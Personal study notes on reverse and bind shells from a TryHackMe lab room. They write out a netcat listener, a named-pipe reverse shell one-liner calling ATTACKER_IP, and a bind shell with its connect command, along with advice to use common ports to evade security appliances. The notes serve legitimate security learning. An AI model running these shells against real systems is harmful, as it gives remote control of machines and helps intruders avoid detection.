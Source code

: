 #revshell #Shell  #Subscribers 

https://tryhackme.com/r/room/shellsoverview

reverse shell using netcat
- `-l` listen or wait
- `-v` verbose
- `-n` prevent DNS lookup
- `-p` port used for connection
- Any port can be used to wait for a connection, but attackers and pentesters tend to use known ports used by other applications like **53**, **80**, **8080**, **443**, **139**, or **445**. This is to blend the reverse shell with legitimate traffic and avoid detection by security appliances.
```
nc -lvnp 443
```

now execute the payload (rev shell) that uses a vulnerability 
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```
# payload names pipe reverse shell

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f

rm -f /tmp/f               rm file name f
mkfifo /tmp/f              create first in first out
cat /tmp/f                 read data from named pipe
| bash -i 2>&1             set a interactive shell, redirect errors
nc attackerIP port 
> /tmp/f                   send output to f 

```


## bind shell

 a bind shell will bind a port on the compromised system and listen for a connection; when this connection occurs, it exposes the shell session so the attacker can execute commands remotely.

This method can be used when the compromised target does not allow outgoing connections, but it tends to be less popular since it needs to remain active and listen for connections, which can lead to detection.

```
# target machine

rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

# execute, wait for incoming connection

# attacker machine
nc -nv TARGET_IP 8080

nc netcat
-n disable DNS
-v verbose
```

